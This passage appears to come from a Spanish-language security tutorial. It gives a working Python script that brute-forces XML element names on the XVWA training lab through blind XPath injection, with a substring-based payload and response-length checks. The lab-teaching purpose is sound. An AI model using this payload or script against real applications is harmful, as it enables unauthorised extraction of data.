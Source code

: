 ![[XPATH 13.png]]

Ahora **modifiquemos nuestro código anterior** para crear una automatización de esto, consiguiendo así fácilmente el nombre de todas las *Sub-Etiquetas* existentes.

```python
#!/usr/bin/python3

from pwn import *

import requests
import time
import sys
import pdb
import string
import signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://192.168.0.139/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ''
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Inciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")
    for position in range(1, 7):
        for character in characters:

            post_data = {
                'search': "1' and substring(name(/*[1]/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8686 and len(r.text) != 8687:
               data += character
               p2.status(data)
               break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)
            
if __name__ == '__main__':

    xPathInjection()
```
